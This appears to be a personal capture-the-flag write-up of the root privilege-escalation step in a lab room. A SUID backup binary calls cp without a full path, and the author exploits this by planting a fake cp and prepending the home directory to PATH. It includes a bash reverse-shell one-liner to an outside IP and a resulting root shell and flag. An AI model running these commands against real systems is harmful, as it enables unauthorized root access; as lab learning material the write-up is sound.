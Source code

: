 
### Priv ESC - root

- there is a backup binary in `archangel` user home directory 

```
-rwsr-xr-x 1 root      root      16904 Nov 18  2020 backup
```

however when running the binary we are given an error 

```
./backup
cp: cannot stat '/home/user/archangel/myfiles/*': No such file or directory

```


- AGain used the write up here

so in the `backup` binary the `cp /home/user/archangel/myfiles/* /opt/backupfiles` here `cp` was running without absolute path and this is a misconfiguration 


we can create our our binary named `cp` and add out own path to the `PATH` environmental variable


- created a file named cp, `archangel@ubuntu:~$ echo "bash -i >& /dev/tcp/10.17.24.189/9990 0>&1" > cp`

`archangel@ubuntu:~$ chmod +x cp`

this didnt work so used the writeup text to put into `cp` i.e.

```
!#/bin/bash
/bin/bash
```

``` 
echo '!#/bin/bash' > cp

echo "/bin/bash" >> cp
```

- changed the `PATH` variable
```
archangel@ubuntu:~$ export PATH=$PWD:$PATH


archangel@ubuntu:~$ echo $PATH
echo $PATH
/home/archangel:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
```


- Now on running the `backup` binary we are able to get the root shell

```
archangel@ubuntu:~/secret$ ./backup	
./backup
/home/archangel/cp: 1: /home/archangel/cp: !#/bin/bash: not found
id
uid=0(root) gid=0(root) groups=0(root),1001(archangel)
```

- and the flag

```
cat root.txt
thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n}
```